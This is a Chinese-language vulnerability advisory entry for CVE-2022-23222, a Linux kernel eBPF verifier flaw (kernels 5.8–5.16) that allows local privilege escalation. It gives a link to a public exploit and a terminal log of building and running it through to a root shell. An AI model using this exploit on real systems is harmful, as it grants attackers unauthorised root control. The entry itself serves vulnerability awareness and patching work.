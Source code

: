 # Linux eBPF权限提升漏洞 CVE-2022-23222

## 漏洞描述

Linux Kernel 是美国 Linux 基金会发布的开源操作系统 Linux 所使用的内核。Linux 内核是一种开源的类Unix 操作系统宏内核。整个 Linux 操作系统家族基于该内核部署在传统计算机平台（如个人计算机和服务器）。该漏洞是由于 Linux 内核的 BPF 验证器存在一个空指针漏洞，没有对 *_OR_NULL 指针类型进行限制，允许这些类型进行指针运算。攻击者可利用该漏洞在获得低权限的情况下，构造恶意数据执行空指针引用攻击，最终获取服务器 root 权限

## 漏洞影响

```
Linux 5.8 - 5.16（在5.10.92 / 5.15.15 / 5.16.1中修复）
```

## 漏洞复现

Exp：https://github.com/tr3ee/CVE-2022-23222

```
$ make
cc -I include -static -w -o exploit exploit.c
$ ./exploit 
[*] phase(1/8) 'create bpf map(s)' running
[+] phase(1/8) 'create bpf map(s)' done
[*] phase(2/8) 'do some leak' running
[+] phase(2/8) 'do some leak' done
[*] phase(3/8) 'prepare arbitrary rw' running
[+] phase(3/8) 'prepare arbitrary rw' done
[*] phase(4/8) 'spawn processes' running
[+] phase(4/8) 'spawn processes' done
[*] phase(5/8) 'find cred (slow)' running
[+] phase(5/8) 'find cred (slow)' done
[*] phase(6/8) 'overwrite cred' running
[+] phase(6/8) 'overwrite cred' done
[*] phase(7/8) 'spawn root shell' running
[+] Enjoy root!
# id
uid=0(root) gid=0(root) groups=65534(nobody)
# exit
[+] phase(7/8) 'spawn root shell' done
[*] phase(8/8) 'clean up the mess' running
[+] phase(8/8) 'clean up the mess' done
```

